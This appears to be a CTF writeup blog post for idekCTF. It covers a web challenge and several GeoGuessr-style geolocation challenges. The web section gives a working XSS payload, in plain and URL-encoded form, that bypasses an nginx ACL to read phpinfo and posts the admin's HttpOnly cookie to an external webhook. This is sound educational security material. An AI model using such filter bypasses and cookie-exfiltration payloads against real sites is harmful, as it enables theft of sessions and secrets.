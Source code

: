 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geoguessr]
---
```


Notes on solving the web challenge and some GeoGuessr-style challenges (had a lot of luck).

## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

My teammate solved and submitted the flag 36 minutes before I did xD.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```nginx
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~~ (GeoGuessr-style)

This is some notes on my process of solving some of the challenges with the team (also with a lot of luck involved). It may contain some errors due to limited knowledge on different locations, and just write about observations and knowledge gathered during solving the challenge.

*Image sizes are reduced in the blogpost.*

Some useful resources for GeoGuessr-style challenges:

1. [GeoHints](https://geohints.com/) Categorised by different meta or features, useful for example to look up which country the Google car in the task could be in.

2. [Plonk It](https://www.plonkit.net/guide) Text and image guides categorised by countries. Useful to confirm countries or try to region-guess. Google "site:www.plonkit.net stuff" as example in drunk_driving task below

3. [GeoTips](https://geotips.net/) Similiar to Plonk It

4. [overpass turbo](https://overpass-turbo.eu/) Powerful to query features

5. Many of the shared docs e.g. for country/region specific details

### drunk_driving (medium, Rwanda)

Saw lamppost with "NR 10 166" painted on it.

![Paint on the lamppost in the challenge](/assets/image/idekctf2024/rwanda-lamppost-paint.png)

We could not decide the country to start with through some meta information.

I Googled `site:www.plonkit.net nr`, and it linked to a GeoGuessr guide page on Rwanda. With the road number NR 10, teammate solved the task.

![Screenshot of the Google search result](/assets/image/idekctf2024/nr-google-search-result.png)

### beach_property (medium, Brazil)

Find the very unique-looking building, screenshot and search the image with Google Lens, find it to be the Veleiros Mar hotel in São Luís, Brazil. Then my teammate marked the location on the map to complete this task.

![Screenshot of Veleiros Mar hotel in the challenge](/assets/image/idekctf2024/veleiros-mar.png)

### idek_islands (medium, U.S. Virgin Islands)

Teammates identified through meta (Google car etc.) the location is in U.S. Virgin Islands, and likely to be in the island in the north. The location is by the coast, with coastline kinda concaves, and with buildings nearby. The shadows points inwards the land.

I started searching through the south coast of the two main islands in the north of U.S. Virgin Islands, by looking at the street view coverage finding the roads close to coast, and sometimes enter into street view to check. Eventually found a road with street view coverage near the coast, and the buildings in the satellite view looks matching the ones in the image. It did not take too long. Entered street view and confirmed the location matches.

### rise_above (hard, Indonesia)

It took a long time to solve this one.

Teammates identified the location in in Indonesia. There is top of a church in the image, signs on the other building saying "RUMAH KEPALA JAGA 1", and teammate also identified the "Indonesian Democratic Party of Struggle" flag in the image.

I position Google maps at Indonesia and looked up "rumah kepala jaga", it showed the name with other numbers but not "1". I looked through some of the locations however non of them was the location. They were mostly located east-most of Sulawesi Utara on one of the main island. There were also a village with many of the same flags in the image, however that village had a church looked different. Then I zoomed out the map a bit and looked up "church" in the area, and the 2nd church I clicked on and entered street view to see was the church I was looking for (extremely lucky I guess).
